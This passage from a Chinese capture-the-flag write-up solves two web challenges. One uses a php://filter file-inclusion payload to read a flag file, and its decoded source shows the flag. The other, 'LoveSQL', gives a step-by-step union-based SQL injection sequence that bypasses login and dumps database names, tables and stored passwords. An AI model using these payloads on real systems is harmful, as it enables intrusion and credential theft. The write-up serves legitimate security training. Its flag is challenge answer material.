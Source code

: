 可以和上一题一样，php://filter

payload=?file=php://filter/read=convert.base64-encode/resource=flag.php

解码:

```php+HTML
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{2c021ef6-68a2-4674-bf4d-ca928f144327}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>
</html>

```



## 0x8.[极客大挑战 2019]LoveSQL

不知道为啥，这里只能%23，不能#和--+

```
?username=admin'%23&password=1

?username=admin' order by 3%23&password=1

?username=111' union select 1,2,3%23&password=1
是2和3

?username=111' union select 1,database(),3%23&password=1
数据库名：geek

?username=111' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='geek'%23&password=1
得到可疑表：l0ve1ysq1

?username=111' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'%23&password=1
得到字段id,username,password

?username=111' union select 1,group_concat(id,username,password),3 from geek.l0ve1ysq1%23&password=1
或者：
?username=111' union select id,username,password from geek.l0ve1ysq1 limit 0,1%23&password=1
一个一个查
```
